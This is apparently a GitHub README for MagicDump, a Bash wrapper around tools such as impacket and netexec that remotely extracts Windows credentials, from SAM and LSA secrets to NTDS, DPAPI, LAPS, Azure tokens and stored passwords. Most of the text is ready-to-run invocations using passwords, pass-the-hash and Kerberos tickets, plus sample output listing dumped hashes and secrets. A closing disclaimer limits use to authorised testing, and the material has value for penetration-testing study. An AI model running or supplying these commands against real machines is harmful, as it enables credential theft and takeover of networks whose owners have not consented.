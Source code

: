 # MagicDump

MagicDump is an automated tool designed to remotely dump credentials from Windows machines, including SAM, LSA, NTDS, DPAPI, and many other credential stores. It simplifies the process of extracting sensitive information, providing organized output and support for multiple authentication methods.

<br>

---

<br>

## Features
- **Comprehensive Credential Dumping**:
  - SAM, LSA, NTDS, DPAPI
  - LAPS (Local Administrator Password Solution)
  - Group Policy Preferences (GPP)
  - gMSA (Group Managed Service Accounts)
  - SCCM (System Center Configuration Manager)
  - Token Broker Cache (Microsoft 365/Azure tokens)
  - WiFi passwords
  - KeePass credentials
  - Veeam backup credentials
  - WinSCP stored sessions
  - PuTTY private keys & proxy credentials
  - Remote Desktop Connection Manager (RDCMan) stored credentials
- **Flexible Authentication**:
  - Username and Password Authentication.
  - Pass-the-Hash Authentication. 
  - Pass-the-Ticket Authentication.
- **Organized Output**:
  - Logs actions in JSON format.
  - Saves dumps and logs to `~/.magicdump/`.
- **Real-Time Feedback**: Displays actions on the screen as they happen.

<br>

---

<br>

## Requirements
- Bash Shell
- Tools for credential dumping (e.g., `impacket`, `netexec`, etc.)

<br>

---

<br>

## Installation
Clone the repository:
```bash
git clone https://github.com/Mag1cByt3s/MagicDump.git
cd MagicDump
```

<br>

Make the script executable:
```bash
chmod +x MagicDump
```

<br>

---

<br>

## Usage
Run the script with the required options:
```bash
./MagicDump -t <target_ip> -u <username> [-p <password> | -H <hash> | -k [--no-pass]] [--local-auth] [-v]
```

<br>

### Arguments
- `-t` / `--target`: Specify the target IP address of the Windows machine.
- `-u` / `--username`: Specify the username to authenticate as.
- `-p` / `--password`: Specify the password for authentication.
- `-H` / `--hash`: Specify the NTLM hash for Pass-the-Hash authentication.
- `k` / `--kerberos`: Use Kerberos authentication. Requires a valid Kerberos ticket.
  - If using Kerberos ticket cache (no password or hash), set the `KRB5CCNAME` environment variable to the path of your ticket and use `--no-pass`.
- `--no-pass`: Skip password or hash when using Kerberos authentication. Requires `-k`.
- `--local-auth`: Use local authentication (optional).
- `-v` / `--verbose`: Enable verbose output for debugging (optional).
- `-h` / `--help`: Show usage info

<br>

---

<br>

## Examples

Password auth:
```bash
./MagicDump -t 192.168.1.100 -u administrator -p SuperSecretPass123
```

Pass-the-Hash:
```bash
./MagicDump -t 192.168.1.100 -u administrator -H '0123456789abcdef0123456789abcdef'
```

Local auth:
```bash
./MagicDump -t 192.168.1.120 -u administrator -p P@ssw0rd --local-auth
```

Pass-the-Ticket (Kerberos auth):
```bash
KRB5CCNAME=administrator@cifs_dc.company.com@COMPANY.COM.ccache ./MagicDump -t dc.company.com -u administrator -k --no-pass
```

Kerberos auth with password:
```bash
./MagicDump -t dc.company.com -u administrator -p 'StrongPassword123' -k
```

<br>

Output:
```bash
==============================
       MagicDump v1.0       
==============================
[INFO] Starting MagicDump against target 192.168.1.100
[INFO] Authenticating as user 'administrator'...
[INFO] Starting SAM dump using netexec...
[LOG] Operation: SAM, Status: success
[INFO] SAM dump saved to ~/.magicdump/dumps/192.168.1.100/SAM_dump_192.168.1.100.txt
[SAM HASHES FOUND]:
SMB                      192.168.1.100    445    HOST               administrator:500:aad3b435b51404eeaad3b435b51404ee:0123456789abcdef0123456789abcdef:::
SMB                      192.168.1.100    445    HOST               Guest:501:aad3b435b51404eeaad3b435b51404ee:abcdefabcdefabcdefabcdefabcdef:::
SMB                      192.168.1.100    445    HOST               DefaultUser:503:aad3b435b51404eeaad3b435b51404ee:deadbeefdeadbeefdeadbeefdeadbeef:::
[INFO] Starting LSA dump using netexec...
[LOG] Operation: LSA, Status: success
[INFO] LSA dump saved to ~/.magicdump/dumps/192.168.1.100/LSA_192.168.1.100.txt
[LSA SECRETS FOUND]:
SMB                      192.168.1.100    445    HOST               EXAMPLE\HOST$:aes256-cts-hmac-sha1-96:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
SMB                      192.168.1.100    445    HOST               EXAMPLE\HOST$:aes128-cts-hmac-sha1-96:bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
SMB                      192.168.1.100    445    HOST               EXAMPLE\HOST$:des-cbc-md5:cccccccccccccccc
SMB                      192.168.1.100    445    HOST               EXAMPLE\HOST$:plain_password_hex:d41d8cd98f00b204e9800998ecf8427e
SMB                      192.168.1.100    445    HOST               NL$KM:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
SMB                      192.168.1.100    445    HOST               EXAMPLE\service_user:ServicePass123
[INFO] Dumping complete. Logs saved to ~/.magicdump/logs/192.168.1.100/report_192.168.1.100_20250105080107.json.
```

<br>

---

<br>

## Logfile example

```json
{
  "target_host": "192.168.1.100",
  "operation_time": "2025-01-05T07:28:58Z",
  "credentials_dumped": {
    "SAM": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/192.168.1.100/SAM_dump_192.168.1.100.txt"
    },
    "LSA": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/192.168.1.100/LSA_dump_192.168.1.100.txt"
    }
  },
  "warnings": [],
  "logs": [
    "Starting MagicDump against target 192.168.1.100",
    "Authenticating as user 'administrator'...",
    "Starting SAM dump using netexec...",
    "SAM dump saved to /home/user/.magicdump/dumps/192.168.1.100/SAM_dump_192.168.1.100.txt",
    "Starting LSA dump using netexec...",
    "LSA dump saved to /home/user/.magicdump/dumps/192.168.1.100/LSA_dump_192.168.1.100.txt"
  ]
}
```

<br>

---

<br>

## Roadmap
- Integrate more advanced credential dumping techniques.
- Encrypt logs and dumps for security.

<br>

---

<br>

## License
[GPLv3 License](LICENSE)

<br>

---

<br>

## Disclaimer
**MagicDump is intended for authorized use only.** Ensure you have permission before using this tool on any system.
